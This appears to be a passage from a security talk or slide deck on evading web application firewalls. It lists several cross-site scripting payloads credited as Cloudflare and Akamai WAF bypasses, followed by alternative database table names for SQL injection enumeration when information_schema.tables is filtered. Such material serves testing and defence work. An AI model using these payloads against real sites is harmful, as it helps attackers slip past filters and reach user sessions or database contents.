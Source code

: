 ```xml
<svg/onload=prompt(/OPENBUGBOUNTY/)>
```

```html
<video onnull=null onmouseover=confirm(1)>
```
*Source: Cloudflare XSS Bypass by [Bohdan Korzhynskyi](https://twitter.com/bohdansec)*

```html
<dETAILS open onToGgle=a=prompt,a() x>
```
*Source: Akamai WAF Bypass (2018) found by [@s0md3v](https://twitter.com/s0md3v/)*

---

# Alternative Keywords

Instead of `information_schema.tables`, `all_tables`, `sys.sysobjects` ...

Alternatives table names:
 - `information_schema.table_constraints`
 - `mysql.innodb_table_stats`
 - `dbo.__MigrationHistory`
 - `ALL_TAB_STATISTICS`




---
![bg left:35%](images/letters-1834501_1920.jpg)
